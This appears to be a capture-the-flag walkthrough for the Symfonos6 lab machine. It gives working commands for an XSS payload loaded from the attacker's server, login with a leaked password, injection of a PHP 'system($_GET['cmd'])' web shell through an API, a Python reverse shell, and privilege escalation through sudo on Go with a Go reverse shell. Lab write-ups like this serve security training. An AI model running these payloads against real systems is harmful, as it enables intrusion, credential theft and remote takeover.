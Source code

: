 # SYMFONOS6

## BASIC INFO 
```
export IP=10.10.179.204
```

Using big.txt from seclists
Found /flyspray

Create a user test, then comment on one of the post.
Next change real name to below.
`"><script SRC=http://10.11.7.208:8000/flyspray.js/>`

... and on our host machine set up a python server with `python3 -m http.server` which contains [flyspray.js](flyspray.js). Wait until the admin open the page, which we can see there's a GET request on our server, then log in with `hacker:12345678`

Now a second post is created with the credentials.
achilles:h2sBr9gryBunKdF9

Log in to `http://10.10.179.204:5000` and look at the source code. We can see that it has an api which construct to the following url.`http://10.10.179.204:5000/ls2o4g/v1.0/` with 3 method `ping`, `auth` and `posts`

Running the command
```bash
curl -s -L -X POST "http://10.10.179.204:5000/ls2o4g/v1.0/auth/login" -H 'Content-Type: application/json' --data-raw '{"username": "achilles", "password" : "h2sBr9gryBunKdF9" }'
```

... we got the output
```
{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE1OTExNzgzNzEsInVzZXIiOnsiZGlzcGxheV9uYW1lIjoiYWNoaWxsZXMiLCJpZCI6MSwidXNlcm5hbWUiOiJhY2hpbGxlcyJ9fQ.MUCkKBlpUkyEQHPyK6h9oZpOf7aFYE3mYbpbgbJqHcM","user":{"display_name":"achilles","id":1,"username":"achilles"}}
```
... which decodes to
```
{
  "exp": 1591178371,
  "user": {
    "display_name": "achilles",
    "id": 1,
    "username": "achilles"
  }
}
```

So that we know we got a valid token, we can try to post to the page with the token and inject our code into it.

```bash
TOKEN=$(curl -s -L -X POST "http://10.10.179.204:5000/ls2o4g/v1.0/auth/login" -H 'Content-Type: application/json' --data-raw '{"username": "achilles", "password" : "h2sBr9gryBunKdF9" }' | jq -r '.token')
curl -L -X POST "http://10.10.179.204:5000/ls2o4g/v1.0/posts" -H 'Content-Type: application/json' -H "Authorization: Bearer $TOKEN" --data-raw '{"text": "system($_GET['cmd']);" }'
```

This will post to the api and inject it with a variable `cmd` whichwe can then control.

Now we define our reverse shell.
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.7.208",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Set up a listener on our host machine then navigate to the page `http://10.10.179.204/posts/?cmd=<reverse shell>` and we got a shell.

Once we're in we can then `su` to achilles with the credentials we get before. Running `sudo -l` shows that we can run `sudo /usr/local/go/bin/go` without password. Go to payload all the things and search for reverse shell on Golang.

Set up another listener on our machine, then run the following command.
```
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.11.7.208:9002");cmd:=exec.Command("/bin/bash");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && sudo /usr/local/go/bin/go run /tmp/t.go && rm /tmp/t.go
```

> - **Initial version**
>> 1.0-rc4

> - **wc -c proof.txt**
>> 592